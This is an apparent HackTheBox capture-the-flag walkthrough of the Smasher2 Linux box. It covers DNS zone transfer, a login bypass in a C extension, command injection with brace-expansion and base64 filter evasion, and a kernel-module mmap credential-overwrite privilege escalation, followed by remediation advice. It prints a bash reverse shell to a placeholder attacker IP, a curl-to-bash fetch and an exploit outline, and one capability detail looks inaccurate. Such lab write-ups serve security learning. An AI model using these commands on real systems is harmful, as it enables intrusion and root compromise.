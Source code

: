 ```yaml
---
title: "Smasher2 HTB - Insane Linux Box Walkthrough"
date: 2025-09-22T08:15:00Z
tags: ["insane-linux", "dns", "zone-transfer", "web", "c-extension", "flask", "reverse-engineering", "ghidra", "gdb", "command-injection", "kernel-module", "privilege-escalation", "memory-mapping"]
difficulty: ["insane"]
categories: ["HTB", "Linux"]
draft: false
description: "Complete walkthrough of Smasher2 HTB machine featuring DNS zone transfer enumeration, Flask C extension exploitation, reverse engineering with Ghidra, command injection bypass, and kernel module memory mapping privilege escalation"
---
```


# Smasher2 HTB - Insane Linux Box Walkthrough

{{< youtube ELiicja60jI >}}

## Exploitation Steps

### Enumeration Phase
- **Nmap Scan**: Run `nmap -sC -sV -oA smasher2 [TARGET-IP]` to identify open ports: SSH (22), DNS (53/TCP, ISC BIND), HTTP (80, Apache on Ubuntu). Note DNS on TCP suggests testing zone transfers.
- **DNS Zone Transfer**: Use `dig axfr @[TARGET-IP] smasher2.htb` to dump the zone, revealing subdomain `wonderfulsessionmanager.smasher2.htb`. Add to hosts file and access the website.
- **HTTP Enumeration**: Access `http://[TARGET-IP]` (403 Forbidden) and `http://wonderfulsessionmanager.smasher2.htb` (login page). Test default creds (admin/admin, guest/guest) and basic SQL injection, but fails.
- **User-Agent Filtering Check**: Analyze Nmap's HTTP probe in Wireshark/Burp; discover blacklist on "Nmap Scripting Engine". Use custom user-agent for further scans.
- **Directory Brute-Force**: Run Gobuster with `gobuster dir -u http://[TARGET-IP] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -a "Mozilla/5.0 (compatible;)" -o gobuster_root.out`, finding `/backup`.

### Web Application Analysis and Bypass
- **Download Backup Files**: From `/backup`, download `sso.c` (C library) and `sso.py` (Flask app). Note logging to `creds.log` (forbidden access).
- **Source Code Review**: In `sso.py`, identify login endpoint `/auth` (POST with JSON data). Calls C functions from `sso.so`. Grep for functions like `log_creds`.
- **Reverse Engineering with Ghidra**: Decompile `sso.so`. Analyze `session_manager_check_login`: Parses POST data, extracts username/password. Bug: `get_internal_user` and `get_internal_pwd` both return username from credentials struct, allowing login if password == username.
- **Debugging with GDB**: Load in Python2 interpreter, attach GDB to step through `check_login`, confirm username/password comparison uses same value. Handle segfaults from lockouts.
- **Login Bypass**: Brute-force usernames with matching passwords (e.g., "Administrator"/"Administrator"). Success grants API key. Lockout (10 attempts) is intended vuln, but bypassed.

### Command Execution and Shell
- **API Endpoint Access**: POST to `/api/<api_key>/job` with JSON `{"schedule": "<command>"}`. Test reveals command execution.
- **Web Filter Evasion**: Commands with spaces forbidden (403). Use Bash brace expansion (e.g., `{echo,test}` expands to "echo test"). Avoid spaces with commas in braces.
- **Base64 Encoding for Complex Commands**: Base64-encode payloads (e.g., reverse shell), decode/execute with `{base64,-d}|{bash,-i}` to evade filters on flags like `-d`.
- **Reverse Shell**: Encode `bash -i >& /dev/tcp/[ATTACKER-IP]/9001 0>&1`, send via API. Catch with `nc -lvnp 9001`. Upgrade shell via SSH key drop (generate key, add to `.ssh/authorized_keys`).

### Privilege Escalation
- **Enumeration with LinPEAS**: Run LinPEAS script (`curl [ATTACKER-IP]:9001/linpeas.sh | bash`). Highlights unsigned kernel module `d_hid.ko` (signature verification failed).
- **Download and Analyze Module**: SCP `d_hid.ko` locally, decompile in Ghidra. Identify device `/dev/d_hid` (block device, registered in init). Read/open functions copy data to user space.
- **Memory Mapping Exploit**: Use `mmap` to map `/dev/d_hid` (kernel space) to user space. Search mapped memory for credential struct (sequence of UID/GID 1000 x8). Overwrite UIDs/GIDs to 0 (root).
- **Exploit Code Development**:
  - Open `/dev/d_hid` (O_RDWR).
  - Map large memory range (e.g., 0x42424242 bytes starting at 0x42424200) with `mmap(NULL, size, PROT_READ|PROT_WRITE, MAP_SHARED, fd, 0)`.
  - Scan for cred struct: Loop through addresses, check for 8 consecutive UIDs (1000).
  - Overwrite: Set UIDs/GIDs to 0, skip secure bits (4 bytes). Set capabilities to 0x1234 (full).
  - Launch shell: `execl("/bin/sh", "sh", NULL)`.
- **Execution**: Compile exploit.c, run on box. Gains root shell. Note: Overwriting affects all processes if not targeted.

## Security Gaps and Remediation

### DNS Service (ISC BIND on Port 53/TCP)
- **Gap: Unrestricted Zone Transfer (AXFR)**
  The DNS server allows zone transfers to unauthorized clients, leaking subdomain information (e.g., wonderfulsessionmanager.smasher2.htb).
  **Fix Type: Configuration**
  In BIND's named.conf, add `allow-transfer { trusted_ips; };` to restrict AXFR to specific IP addresses or ACLs.

### HTTP Server (Apache on Port 80)
- **Gap: User-Agent Based Blacklisting**
  The server blocks requests with specific user-agents like "Nmap Scripting Engine" (403 Forbidden), but it's easily bypassed by changing the user-agent. This indicates incomplete or weak WAF rules.
  **Fix Type: Configuration**
  Enhance Apache mod_security or .htaccess rules to use more robust filtering (e.g., regex on broader patterns) or remove if not needed; example: `<If "%{HTTP_USER_AGENT} =~ /nmap/i"> Deny from all </If>` but expand to cover variations.

- **Gap: Exposed Backup Directory**
  The /backup directory is accessible, allowing download of sensitive files like sso.py and sso.c, exposing source code.
  **Fix Type: Configuration**
  In Apache config (e.g., sites-available), add `<Directory /backup> Require all denied </Directory>` or use .htaccess with `Deny from all` to block access.

- **Gap: File Access Restrictions Bypassed Indirectly**
  Files like creds.log are forbidden (403), but the restriction is filename-based and doesn't prevent inference or other access attempts.
  **Fix Type: Configuration**
  Strengthen Apache rules with mod_rewrite or mod_security to block patterns like `RewriteRule ^.*(creds\.log|threads\.log)$ - [F]` and ensure no directory traversal.

### Web Application (Flask App with C Extension - sso.py and sso.so)
- **Gap: Login Bypass Due to Bug in Credential Retrieval**
  In sso.so, get_internal_user and get_internal_pwd both return the username from the credentials struct, allowing login if password matches username.
  **Fix Type: Source Code**
  Modify get_internal_pwd in sso.c to correctly return the password (e.g., return credentials[1] instead of credentials[0]).

- **Gap: Weak Lockout Mechanism (Intended for Garbage Collection Dereference Exploit)**
  The 10-attempt lockout can be exploited via Python garbage collection dereferencing, leading to unintended access.
  **Fix Type: Source Code**
  In sso.py/sso.so, properly manage object references in check_login (e.g., use Py_INCREF/Py_DECREF correctly) and strengthen lockout logic to avoid dereference vulnerabilities.

- **Gap: Command Execution via API Endpoint**
  The /api/<key>/job endpoint executes arbitrary commands from the "schedule" JSON parameter.
  **Fix Type: Source Code**
  In sso.py, replace direct execution (e.g., os.system or subprocess) with sanitized whitelisting or remove execution; example: validate input against allowed commands list before running.

- **Gap: Bypassed Web Filter on Command Inputs**
  Filter blocks spaces and flags (e.g., -d in base64), but bypassable via Bash brace expansion (e.g., {base64,-d}) or commas.
  **Fix Type: Source Code/Configuration**
  In sso.py, enhance input sanitization to detect and strip brace expansions (e.g., regex replace /{.*}/ with safe parsing); or configure a WAF like mod_security to block such patterns in POST data.

### Kernel Module (d_hid.ko)
- **Gap: Unsigned Kernel Module Loaded**
  The module lacks signature verification, allowing potentially malicious modules to load.
  **Fix Type: Configuration**
  Enable kernel module signing in /etc/modprobe.d or kernel boot params (e.g., module.sig_enforce=1) to require signatures.

- **Gap: Memory Mapping Vulnerability Allowing Credential Overwrite**
  The module's mmap handler maps kernel space to user space without protections, enabling searches and overwrites of credential structures.
  **Fix Type: Source Code**
  In d_hid.ko source, add checks in mmap/open/read functions (e.g., verify_user_ptr, restrict mapping size/offsets) to prevent kernel-to-user mappings; example: return -EPERM if offset or size exceeds safe bounds.

## Conclusion

Smasher2 is an excellent machine that demonstrates the complexity of modern web applications with native extensions and kernel-level vulnerabilities. It requires expertise in:
- DNS zone transfer enumeration and information gathering
- Flask application security and C extension analysis
- Reverse engineering with tools like Ghidra and GDB
- Command injection bypass techniques and web filter evasion
- Kernel module analysis and memory mapping exploitation
- Advanced privilege escalation through credential structure manipulation

The machine emphasizes the importance of proper input validation, secure coding practices in native extensions, kernel module security, and comprehensive system hardening.

---

*This walkthrough covers the complete exploitation chain for educational purposes in authorized testing environments only.*